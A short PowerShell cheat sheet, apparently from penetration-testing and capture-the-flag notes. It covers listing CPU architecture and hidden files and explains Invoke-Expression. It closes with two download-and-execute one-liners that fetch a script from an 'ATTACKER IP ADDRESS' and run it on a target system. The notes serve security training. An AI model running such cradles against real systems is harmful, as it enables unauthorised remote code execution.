 # PowerShell
This new section is for all Microsoft Powershell-based techniques and syntax used during penetration testing and capture the flag.
## List CPU Architecture
```
PS > 
$ENV:PROCESSOR_ARCHITECTURE
AMD64
```
## List ALL Files
```
PS> ls -Force
```
## Invoke Expression
The `Invoke-Expression` cmdlet evaluates or runs a specified string as a command and returns the results of the expression or command. Without Invoke-Expression, a string submitted at the command line would be returned (echoed) unchanged.
```
PS C:\Target-System> IEX(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
OR
```
PS C:\Target-System> Invoke-Expression(New-Object Net.WebClient).downloadString('http://(ATTACKER IP ADDRESS)/(PowerShell Script).ps1')
```
